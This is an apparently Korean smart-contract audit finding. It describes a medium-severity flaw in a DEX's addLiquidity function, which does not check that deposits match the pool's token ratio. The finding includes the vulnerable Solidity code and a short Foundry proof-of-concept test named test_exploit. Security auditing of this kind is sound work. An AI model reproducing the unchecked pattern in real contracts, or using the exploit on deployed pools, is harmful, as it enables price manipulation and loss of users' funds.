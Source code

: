 ## medium - 토큰 유동성 풀의 AMM이 손상되어 비정상적인 가격 변동이 발생할 수 있습니다.

### 설명

./src/Dex.sol : 64-78

function addLiquidity(uint256 _amountX, uint256 _amountY, uint256 _minLP) external returns (uint256)

```solidity
function addLiquidity(uint256 _amountX, uint256 _amountY, uint256 _minLP) external returns (uint256) {
    require(IERC20(tokenX).allowance(msg.sender, address(this)) >= _amountX, "ERC20: insufficient allowance");
    require(IERC20(tokenY).allowance(msg.sender, address(this)) >= _amountY, "ERC20: insufficient allowance");
    require(IERC20(tokenX).balanceOf(msg.sender) >= _amountX, "ERC20: transfer amount exceeds balance");
    require(IERC20(tokenY).balanceOf(msg.sender) >= _amountY, "ERC20: transfer amount exceeds balance");

    IERC20(tokenX).transferFrom(msg.sender, address(this), _amountX);
    IERC20(tokenY).transferFrom(msg.sender, address(this), _amountY);

    uint256 liquidity = this.mint(msg.sender);

    require(liquidity >= _minLP, "INSUFFICIENT_LIQUIDITY_MINTED");

    return liquidity;
}
```

`addLiquidity` 함수에서 인자로 들어온 `_amountX`, `_amountY`의 값이 실제 유동성 풀의 토큰 비율과 일치하는지에 대한 검사가 존재하지 않습니다.

이에 따라 `_amountX`, `_amountY`만큼의 토큰이 모두 유동성 풀에 추가되어 유동성 풀 내의 토큰 비율이 손상될 수 있습니다.

### 파급력

Medium - 유동성 공급 비율에 대한 검사가 이루어지지 않아, 공격자가 임의로 토큰 비율을 조정할 수 있습니다.

```solidity
contract DexScript is Test {
    Dex public dex;
    IERC20 tokenX;
    IERC20 tokenY;

    function setUp() public {
        tokenX = new CustomERC20("X");
        tokenY = new CustomERC20("Y");
        dex = new Dex(address(tokenX), address(tokenY));
        tokenX.approve(address(dex), type(uint256).max);
        tokenY.approve(address(dex), type(uint256).max);

        dex.addLiquidity(800 ether, 700 ether, 0);
    }

    function test_exploit() public {
        
        uint LPReturn1 = dex.addLiquidity(8 ether, 7 ether, 0);
        console.log("LPReturn1: ", LPReturn1);

        uint swap1 = dex.swap(0, 100 ether, 0);
        console.log("swap1: ", swap1);

        
    }
```